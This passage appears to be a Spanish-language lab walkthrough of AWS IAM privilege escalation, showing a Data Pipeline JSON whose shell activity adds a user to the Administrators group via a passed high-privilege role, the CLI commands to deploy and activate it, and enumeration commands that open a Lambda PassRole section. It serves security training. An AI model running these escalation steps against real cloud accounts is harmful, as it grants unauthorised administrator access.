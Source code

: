 Creamos el archivo pipeline-test.json  

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "aws iam add-user-to-group --group-name Administrators --user-name privesc21-PassExistingRoleToNewDataPipeline-user",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "privesc-high-priv-service-role",
         "resourceRole": "privesc-high-priv-service-profile"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["launch-wizard-1"],
         "keyPair" : "ssh_keys",
         "role" : "privesc-high-priv-service-role",
         "resourceRole" : "privesc-high-priv-service-profile"
     }]
}

```

Ejecutamos los comandos:
```bash
aws datapipeline put-pipeline-definition --pipeline-id df-07792257LS8Z17HL0Z5 --pipeline-definition file://pipeline-test.json --profile privesc21  

aws datapipeline activate-pipeline --pipeline-id df-07792257LS8Z17HL0Z5 --profile privesc21  
```
		
## PassExistingRoleToNewLambdaThenInvoke
### Permisos Requeridos: iam:PassRole, lambda:CreateFunction y lambda:InvokeFunction  

```bash
aws iam list-attached-user-policies --user-name privesc15-PassExistingRoleToNewLambdaThenInvoke-user  

aws iam get-policy-version --policy-arn arn:aws:iam::579852752421:policy/privesc15-PassExistingRoleToNewLambdaThenInvoke --version-id v1  
```
